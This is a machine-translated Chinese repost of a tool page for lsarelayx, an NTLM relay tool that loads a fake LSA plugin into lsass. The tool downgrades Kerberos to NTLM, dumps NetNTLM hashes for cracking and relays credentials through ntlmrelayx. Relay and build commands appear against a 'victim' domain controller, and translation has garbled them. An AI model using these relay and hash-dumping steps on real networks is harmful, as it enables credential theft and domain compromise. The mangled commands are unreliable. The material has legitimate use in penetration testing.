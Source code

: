 # Lsarelayx : NTLM 让 Windows 中继变得简单

> 原文：<https://kalilinuxtutorials.com/lsarelayx/>

[![](img/5230dc88f371346b6655cd9155d1fbfa.png)](https://blogger.googleusercontent.com/img/a/AVvXsEiMRJUkj_C2HKPQLB2br49MGS40TQc0IWUFNzjesse0QKAoIFw6tnTw8iXOBFGM7ArHBhYKAzTjE6dyQJVwoDqgAqnfVIcvbOoLd-D3OKndH-e5frcOrL1MTbb0oBV_zrDp4YjfNYLUyDfWRH0M_jQsJEXrUbgL08t6awrmWK5E6H2P6PzKUxBGXDTE=s728)

Lsarelayx 是一个系统范围的 NTLM 中继工具，用于将基于 NTLM 的身份验证中继到运行它的主机。lsarelayx 将中继**任何包含 SMB 的**传入认证请求。由于 lsarelayx 与现有的应用程序身份验证流挂钩，所以在中继完成后，该工具还会尝试为原始的身份验证请求提供服务。这将防止目标应用程序/协议显示错误，并使最终用户在 lsarelayx 主机上进行身份验证时正常工作。

**特色**

*   在系统范围内中继 NTLM 连接，包括 SMB、HTTP/HTTPS、LDAP/LDAPS 或任何其他实现 Windows 身份验证 API 的第三方应用程序。
*   尽可能将传入的 Kerberos 身份验证请求降级为 NTLM。这将导致传统上尝试 Kerberos 身份验证的客户端退回到 NTLM。
*   对中继用户执行 LDAP 查询，以获取组成员信息，并为原始请求创建正确的身份验证令牌。
*   转储 NetNTLM 消息以进行脱机破解。
*   支持被动模式，不中继，只转储捕获的 NetNTLM 哈希(在此模式下没有 Kerberos 降级)。

**工作原理**

lsarelayx 由三部分组成。一个在 liblsarelay.dll 实现的假 LSA 身份验证提供程序，一个作为控制界面的用户模式控制台应用程序和一个名为 RAW 的新 ntlmrelayx 服务器模块。

**liblsarelayx.dll**

liblsarelayx.dll 是由 lsarelayx 加载的 LSA 身份验证提供者。它的主要目的是挂钩 NTLM 和协商包，以便于通过本地命名管道将身份验证请求重定向到 lsarelayx，从而中继和转储 NetNTLM 哈希。liblsarelayx 设计得尽可能简单，所有繁重的工作都由 lsarelayx 来完成

**lsarelayx.exe**

liblsarelayx.dll 是主控制台应用程序，用于加载自定义 LSA 身份验证提供程序(liblsarelayx.dll)，侦听传入的 NTLM，协商来自身份验证提供程序的令牌，并中继到 ntlmrelayx 的原始服务器模块。该工具还执行 LDAP 查询，这些查询用于捕获中继用户的组信息，并传递回 LSA 身份验证提供程序。

**原始 ntlmrelayx 模块**

impacket 的 ntlmrelayx 已经实现了大量的工作来创建中继攻击，并将在未来继续改进和添加进一步的攻击。为了利用这一点直接在 lsarelayx 中重新实现攻击，创建了一个新的 ntlmrelayx 服务器模块，称为 RAW。目前 GitHub 上有一个 PR open 实现了 RAW 服务器模块。原始服务器模块与协议无关，设计用于直接接受来自 lsarelayx 等第三方软件的原始 NTLM 消息。

在 PR 合并到主线 impacket repo 之前，您可以使用这个版本

**用法**

**主动模式**

首先启动 ntmlrelayx 原始服务器模块，监听从 lsarelayx 传递的原始 NTLM 消息。

**python 示例\ ntlmrelayx . py-SMB 2 support–no-wcf-server–no-SMB-server–no-http-server "-t " SMB://DC . victim . LAN
Impacket v 0 . 9 . 24 . de v1+20211015.125134 . c0ec 6102–Copyright 2021 secure auth Corporation
[*]协议客户端 DCSYNC 已加载..[* ]协议客户端 HTTPS 加载..
[ *]协议客户端 HTTP 已加载..[*]协议客户端 IMAP 已加载..
[ *]协议客户端 IMAPS 已加载..[* ]协议客户端 LDAP 已加载..
[ *]协议客户端 LDAPS 已加载..[*]协议客户端 MSSQL 已加载..
[ *]协议客户端 RPC 已加载..[*]协议客户端 SMB 已加载..
[ *]协议客户端 SMTP 已加载..[* ]以中继模式运行到单个主机
[ *]在端口 6666 上设置原始服务器[* ]服务器开始，等待连接**

lsarelayx 本身需要本地管理员权限才能运行。要在主动中继模式下运行，需要指定 ntlmrelayx 运行原始服务器模块的主机地址。默认端口是 6666。这可以用`**--port**`参数覆盖，但是一定要用`**--raw-port**`参数覆盖 ntlmrelayx 端的端口。

**lsarelayx.exe–主机 192.168.1.1
[+]使用 192.168.1.1:6666 中继 NTLM 连接
[=]试图加载 LSA 插件 C:\ users \ admin**trator \ Desktop \ liblsarelayx . dll

**被动模式**

您还可以通过不带任何参数地运行，以被动模式运行 lsarelayx

**lsarelayx.exe
[=]没有提供主机，切换到被动模式
[=]试图加载 LSA 插件 C:\ users \ Administrator \ Desktop \ liblsarelayx . dll**

**注意事项**

一旦 liblsarelayx DLL 被加载到 lsass 中，由于 LSA 插件工作方式的限制，现在你不能卸载它。可以关闭客户端，这将使 DLL 进入休眠状态，直到客户端再次启动，但 DLL 将一直使用，直到重新启动。

由于 LSA 插件实际上不是一个真正的插件，有计划在插件内部实现一个反射加载器，然后可以随意停止和启动，但这是另一天的练习。

在 Windows 10 和 Server 2016 上进行开发。在 Windows Server 2012 R2 上执行了一个快速测试，运行正常，但挂钩的偏移量计算在 2012 年可能会失败(这可以使用`**lookuppackage-hint=**`手动提供，如果出错，Windows 将重新启动)。没有在 Windows 10 以下的桌面端进行任何测试，也没有在 Server 2019 上进行任何测试。

**大楼**

**码头工人**

如果你安装了 docker，这是最快的选择。它利用预先安装了所有构建依赖项的`**ccob/windows_cross**`映像。

**Windows 上的 Docker(Powershell)**

**docker run–RM-it-v $ env:pwd \:/root/lsarelayx ccob/windows _ cross:latest/bin/bash-c " CD/root/lsarelayx；mkdir 构建；cd 构建；cmake-DC make _ INSTALL _ PREFIX =/root/lsarelayx/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =**../toolchain/Linux-mingw64.cmake..；–建造。–目标安装/剥离”

Linux 上的坞站

**docker run–RM-it-v $(pwd):/root/lsarelayx ccob/windows _ cross:latest/bin/bash-c " CD/root/lsarelayx；mkdir 构建；cd 构建；cmake-DC make _ INSTALL _ PREFIX =/root/lsarelayx/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =../toolchain/Linux-mingw64.cmake..；cmake–构建。–目标安装/剥离"**

**Linux**

在 Linux 上，我们利用 CMake 工具链和 MinGW 编译器。这些需要提前安装。对于托管组件，请确保 dotnet 命令行工具也是从安装的。网络核心

**mkdir BUILD
CD BUILD
cmake-DC make _ INSTALL _ PREFIX = $ PWD/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =../toolchain/Linux-mingw64.cmake..
cmake–构建。–目标安装/拆卸**

**Windows (Powershell)**

在尝试构建之前，Windows 将需要完整的 CMake、MinGW 和 Visual Studio 安装，如果没有安装开发环境，这是最痛苦的构建方式

**mkdir BUILD
CD BUILD
cmake-DC make _ INSTALL _ PREFIX = $ PWD/dist-DC make _ BUILD _ TYPE = MinSizeRel-G " MinGW Makefiles "..
cmake–构建。–目标安装/拆卸**

[**Download**](https://github.com/CCob/lsarelayx)